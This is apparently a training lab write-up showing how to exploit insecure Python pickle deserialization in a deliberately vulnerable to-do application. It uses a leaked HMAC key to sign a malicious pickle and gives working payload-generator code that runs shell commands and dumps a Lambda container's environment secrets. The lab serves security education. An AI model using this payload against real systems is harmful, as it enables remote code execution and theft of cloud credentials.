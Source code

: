 # Lab 3

## Introduction

In the previous lab, we found and exploited an XXE bug in the application. Using that bug, we were able to disclose source code of the application, which had an HMAC key hard-coded.

In this lab, we will use that HMAC key to generate a signed, malicious pickle blob to gain code execution in the Lambda container.

## Methodology

We discovered early on (and confirmed via our source code l00t) that the application parses XML import files, extracts `data` and `hmac` elements, validates the data using the HMAC, and then unpickles the data. If the data doesn't pass the HMAC check, it is rejected - that's a perfectly valid way to mitigate deserialization issues. Unfortunately we were able to steal the HMAC key via another vulnerability, and we can now leverage a "feature" of Python's pickle deserialization to gain code execution. In this lab, we'll:

1. Craft a pickle deserialization exploit that steals environment variables
2. Generate an HMAC digest of that exploit that will pass the check
3. Automate payload generation with a Python script
4. Upload our exploit payload and observe the results

## Crafting a pickle deserialization exploit

The primary goal of our exploit will be to read the environment; because sensitive and dynamic data is often passed into the container via the environment, we are likely to find something useful there.

The Python `pickle` library is a serialization library that allows you to serialize Python objects; that is, flatten the object to a byte string, for transport to a remote Python interpreter. Once it reaches the destination, it can be deserialized and used as an object again.

To see how this works in practice, let's deserialize our payload from before. Grab the body of the `data` element from your exported to-do list, open a Python interpreter, and deserialize it as follows:

```
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode('KGxwMAooZHAxClZsaXN0TmFtZQpwMgpWTTBycmlzCnAzCnNWdGFza0Rlc2NyaXB0aW9uCnA0ClZGb28gdGhlIGJhcgpwNQpzVnRhc2tJZApwNgpWNzlMclhrTjBtNEdYS2kzawpwNwpzYShkcDgKVmxpc3ROYW1lCnA5ClZNMHJyaXMKcDEwCnNWdGFza0Rlc2NyaXB0aW9uCnAxMQpWRnJvYiB0aGUgYml6CnAxMgpzVnRhc2tJZApwMTMKVkNWbDNrSWVHYVc0cVFIZjcKcDE0CnNhKGRwMTUKVmxpc3ROYW1lCnAxNgpWTTBycmlzCnAxNwpzVnRhc2tEZXNjcmlwdGlvbgpwMTgKVkJhciB0aGUgZnJvYgpwMTkKc1Z0YXNrSWQKcDIwClZZTHZvSlU3N2xYZTMwaHoxCnAyMQpzYS4='))

# Output: [{u'listName': u'M0rris', u'taskDescription': u'Foo the bar', u'taskId': u'79LrXkN0m4GXKi3k'}, ...
```

The `data` element contains a list of all the tasks we exported, in a pickle-serialized format. Easy enough!

Before we craft our payload, let's revisit how the pickle-deserialization vulnerability works. When an object is being pickled, the pickling routine calls a class method `__reduce__` that returns a function (and its arguments) to be used as an entrypoint when the object is being unpickled (or, "deserialized").

With this background, we can craft a Python class that implements `__reduce__` such that the interpreter executes arbitrary code when it deserializes our Pickle object. Let's try a simple payload:

```
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())
    print('<data> + base64.b64encode(data) + </data>')

main()
```

Let's break that down...

The `__reduce__` method in this example returns a 2-tuple containing:

1. A function that the pickle library calls when deserializing the object on target
2. Arguments to that function

In this case, we will use  `subprocess.check_output` to invoke a shell and print the string "Hello World".

Run this Python script to see what it prints.

## Generating an HMAC to make it legit

Since we were able to capture the HMAC key in the previous lab, let's generate an HMAC digest of this pickle payload. Together with a valid HMAC, our malicious payload will pass the check and be considered valid by the Import function.

Remember, if the XML doesn't contain all valid fields or contains any invalid fields (including invalid Pickle data), we'll never reach the deserialization code.

Update your Python payload generator to calculate the HMAC, using our captured key:

```
import cPickle
import subprocess
import base64
import hmac
import hashlib

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())

    h = hmac.new('\x16q\x1c\x10\xfa\xa1\xf1\xf0}%\x95\xce\xa2\xf7\xd1\x8c-\rr\xe5\x91\x9eLS\x15\xbf\xe4\xc4\xd6F\x96\xbe', data, hashlib.sha256)
    digest = h.hexdigest()

    print('<?xml version="1.0"?>')
    print('<backup>')
    print('  <data>' + base64.b64encode(data) + '</data>')
    print('  <hmac>' + digest + '</hmac>')
    print('</backup>')

main()
```

Running that script should provide a valid document that we can import to our todo list.

## Uploading the payload

Run the Python script to generate your pickle exploit, saving the payload to disk:

```
python make_pickle.py >Desktop/pickle_exploit.xml
cat Desktop/pickle_exploit.xml
```

Now upload it using the Import functionality:

![Pickle hello-world exploit](./images/3-pickle-hw.png)

It worked!

Let's use this code execution to read the environment. Change your pickle exploit payload to run the command `/bin/sh -c declare`; this will dump the environment back to us!

Upload your payload to see the result:

![Getting the environment via pickle deserialization](./images/3-env.png)

See anything interesting?

## Extra credit

Can you learn the names of all the lists people have created today?

## Recap

We were able to leverage pickle deserialization to gain code execution on the Lambda container, leaking AWS secrets from the environment. In order to get the backend code to deserialize our pickle exploit, we needed to generate a valid HMAC digest using the key leaked in Lab 2.

## Vulnerabilities covered

| Designation | Description | Comment |
| :---: | --- | --- |
| A2:2017 | Broken Authentication | Pickle data validation is bypassed with leaked HMAC key |
| A5:2017 | Broken Access Control | (extra credit) |
| A8:2017 | Insecure Deserialization | Pickle deserialization is vulnerable to exploitation via `__reduce__` |
